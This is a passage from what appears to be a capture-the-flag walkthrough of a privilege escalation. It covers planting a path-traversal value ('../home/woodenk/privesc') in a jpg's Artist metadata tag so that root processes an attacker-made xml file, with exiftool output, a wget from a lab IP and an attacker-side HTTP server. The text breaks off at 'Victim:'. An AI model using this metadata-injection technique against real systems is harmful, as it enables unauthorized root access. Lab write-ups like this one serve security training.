 >Note: User-Agent parsing.

##### Planning the attack

>Note: Create a `jpg` with an `Artist` metadata tag containing the path to an `xml` file which contains code to be run by `root`.

###### Craft a malicious jpg

	wget http://10.10.11.170:8080/img/greg.jpg
	exiftool greg.jpg

```shell-session
ExifTool Version Number         : 12.44
File Name                       : greg.jpg
Directory                       : .
File Size                       : 103 kB
File Modification Date/Time     : 2022:08:29 13:25:35+02:00
File Access Date/Time           : 2022:08:29 13:25:35+02:00
File Inode Change Date/Time     : 2022:08:29 13:26:09+02:00
File Permissions                : -rw-r--r--
File Type                       : JPEG
File Type Extension             : jpg
MIME Type                       : image/jpeg
Exif Byte Order                 : Big-endian (Motorola, MM)
Orientation                     : Horizontal (normal)
Artist                          : woodenk
<...SNIP...>
```

	exiftool greg.jpg

```shell-session
ExifTool Version Number         : 12.44
File Name                       : greg.jpg
Directory                       : .
File Size                       : 103 kB
File Modification Date/Time     : 2022:08:29 13:32:14+02:00
File Access Date/Time           : 2022:08:29 13:32:14+02:00
File Inode Change Date/Time     : 2022:08:29 13:32:14+02:00
File Permissions                : -rw-r--r--
File Type                       : JPEG
File Type Extension             : jpg
MIME Type                       : image/jpeg
Exif Byte Order                 : Big-endian (Motorola, MM)
Orientation                     : Horizontal (normal)
Artist                          : ../home/woodenk/privesc
<...SNIP...>
```

Attacker:

	python3 -m http.server 80

Victim:
